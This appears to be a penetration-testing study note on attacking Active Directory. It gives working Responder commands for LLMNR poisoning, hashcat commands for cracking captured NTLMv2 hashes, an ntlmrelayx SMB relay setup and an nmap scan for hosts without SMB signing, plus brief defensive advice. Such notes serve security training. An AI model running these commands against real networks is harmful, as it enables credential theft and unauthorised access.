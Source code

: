 # ACTIVE DIRECTORY

Directory services developed by Microsoft to manage windows domain networks.
Stores information related objects, such as Computers, Users, Printers etc. (Acts like a phonebook for Windows).
Authenticates using kerberos - Non-windows devices such as Linux machines, firewalls etc. can also authenticate to Active Directory via RADIUS or LDAP.


# ATTACKING ACTIVE DIRECTORY 
First we need to find our way into the network through abusing features of windows.

**1---LLMNR POISONING**

LINK LOCAL MULTICAST & NAME RESOLUTION - used to Identify hosts when DNS fails to do so.

Previously known as NBT_NS.

Key flaw is that the services utilize a user's username and NTLMV2 hash when appropriately responded to.

We will use a tool called `Responder`

`python Responder.py -I tun0 -rdw -V`

Run the tool and wait for connection :

STEPS:
- Run Responder
- An Event occurs
- Get some hashes
- Crack the hashes 

**Capturing NTLMV2 Hashes with Responder**

 `responder -I eth0 -rdwv`
 
 **Password cracking with Hashcats**
 
 copy and paste the hashes collected:
 
 `gedit hashes.txt`
 
 paste the hashes and save
 
 `hashcat -m 5600 hashes.txt rockyou.txt --force`
 
 **LLMNR Poisoning defenses**
 
 Best defense is to disable LLMNR & NBT-NS.
 If you have to use or cannot disable LLMNR/NBT-NS;
 
 - Enable Network Access Control
 - Use Strong User Password

**2---SMB RELAY ATTACKS**

SMB signing is a packet level protocol.
Instead of cracking hashes gathered with Responder, we can instead relay these hashes to specific machines and potentially gain access.

Requirements:

- SMB signing must be disabled on the target.
- Relayed user credentials must be admin on machine.

Run Responder:

`gedit Responder.conf` - Turn off SMB & HTTP

`python Responder.py -I tun0 -rdw -v`

Set up your relay:

`python ntlmrelayx.py -tf targets.txt -smb2support`

NTLM relay x takes the relay, it passes it to a target file specified.

**Discovery Hosts with SMB Signing Disabled**

Using nmap to do a quick check:

`nmap --script=smb2-security-mode.nse -p445 192.168.57.0/24`
